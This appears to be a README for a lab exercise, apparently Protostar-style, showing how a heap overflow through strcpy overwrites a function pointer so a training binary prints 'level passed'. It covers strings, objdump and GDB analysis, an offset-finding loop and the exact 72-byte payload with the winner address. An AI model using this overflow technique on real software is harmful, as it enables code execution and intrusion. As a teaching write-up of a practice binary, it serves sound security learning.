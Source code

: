 # ex10 README

## Objective

The goal of this exercise is to exploit a vulnerability to see the message "level passed".

## Steps

### 1\. Initial Setup

Start by examining the binary using common tools:

```sh
strings bin
objdump -t bin
gdb -q ./bin
```

### 2\. Analyze the Binary with `strings`

Running `strings` on the binary provided some useful information:

```plaintext
strings bin
```

Key strings found:

- `strcpy`
- `puts`
- `printf`
- `malloc`
- "level passed"
- "level has not been passed"
- "data is at %p, fp is at %p"

These strings indicate potential points of interest and vulnerabilities.

### 3\. Examine Symbols with `objdump`

Using `objdump` to list symbols:

```sh
objdump -t bin
```

Key functions found:

- `08048464 g F .text 00000014 winner`
- `08048478 g F .text 00000014 nowinner`

The goal is to redirect execution to the `winner` function (`0x08048464`).

### 4\. Disassemble the `main` Function with GDB

Start GDB and set a breakpoint at `main`:

```sh
gdb -q ./bin
(gdb) break main
(gdb) run
(gdb) disassemble main
```

Key points from disassembly:

```plaintext
0x080484ac <+32>: call   0x8048388 <malloc@plt>
0x080484f2 <+102>: call   0x8048368 <strcpy@plt>
0x080484fd <+113>: call   *%eax
```

### 5\. Determine the Memory Layout

Run the program with a simple input and inspect memory:

```sh
./bin AAAA
```

GDB output:

```plaintext
(gdb) x/32x $esp
0xbfcccce0: 0x08048520 0x080483b0 0x00000000 0xb758d64d
...
0xbfcccda4: 0x00000002 0xbfcccda4 0xbfcccdb0 0xb771fcea
...
0xbfcccdf0: 0x08048564 0x00000000 0x00000000 0x00000000
```

### 6\. Find the Correct Offset

Run a Python script to determine the exact offset:

```sh
for i in $(seq 1 100); do
    python -c "print('A'*$i + ' %p' * 10)" | ./bin;
done
```

Observe the output to find where the `AAAA...` sequence appears.

### 7\. Craft the Payload

We determined that the function pointer is located 72 bytes into the allocated buffer. The payload needs to overwrite this pointer with the address of the `winner` function (`0x08048464`).

### Example Payload Construction

Construct the payload with 72 'A' characters followed by the `winner` address:

```sh
python -c "print('A'*72 + '\x64\x84\x04\x08')"
```

### 8\. Provide Payload as an Argument

Run the program with the crafted payload as an argument:

```sh
./bin $(python -c "print('A'*72 + '\x64\x84\x04\x08')")
```

### 9\. Verify the Output

Successful output:

```plaintext
data is at 0x93b9008, fp is at 0x93b9050
level passed
```

### Conclusion

By analyzing the binary and using trial and error to determine the exact buffer layout and function pointer location, we successfully crafted a payload to redirect execution to the `winner` function, printing "level passed".

### Challenges and Learnings

- **Challenge**: Identifying the exact offset to the function pointer.
- **Solution**: Systematic testing and memory inspection with GDB.
- **Learning**: The importance of understanding heap memory layout and careful payload construction.

### Summary

1. **Analyze Binary**: Used `strings`, `objdump`, and GDB to understand the binary.
2. **Determine Offset**: Found the exact offset to the function pointer using a systematic approach.
3. **Craft Payload**: Created a payload to overwrite the function pointer with the address of the `winner` function.
4. **Execute Payload**: Successfully executed the payload to print "level passed".

By following these steps and understanding the exploitation process, we successfully completed the level.
